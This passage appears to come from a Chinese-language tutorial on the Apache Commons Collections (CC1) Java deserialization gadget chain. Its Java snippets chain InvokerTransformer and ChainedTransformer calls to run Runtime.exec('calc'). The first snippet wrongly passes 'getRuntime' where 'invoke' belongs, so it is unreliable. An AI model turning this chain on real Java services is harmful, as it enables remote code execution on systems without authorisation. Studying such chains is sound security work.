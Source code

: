 这样便可实现序列化，我们采用InvokerTransformer类的transform方法实现上述过程：

```java
Class rc = Class.forName("java.lang.Runtime");
Method getRuntime = (Method)new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
Runtime r = (Runtime) new InvokerTransformer("getRuntime",new Class[]{Object.class,Object.class},new Object[]{null,null}).transform(getRuntime);
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```

#### 3.2 使用ChainedTransformer类简化过程

```java
public ChainedTransformer(Transformer[] transformers) {
    super();
    iTransformers = transformers;
}

public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

ChainedTransformer类中存在的transform方法类似于递归调用，因此我们可以以数组的形式传入InvokerTransformer类的transform方法实现的获取Runtime实例的过程，故更改代码如下：

```java
Transformer[] transformers=new Transformer[]{
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

然而，在实际的环境中，我们不可能直接调用chainedTransformer的transform方法来传入Runtime.class。因此，我们需要将Runtime.class作为递归的开头传入进去，而直接传入是不可能的，我们需要一个类来作为载体。与此同时，我们还忽略了一个问题，那就是AnnotationInvocationHandler类中的setValue参数不可控。
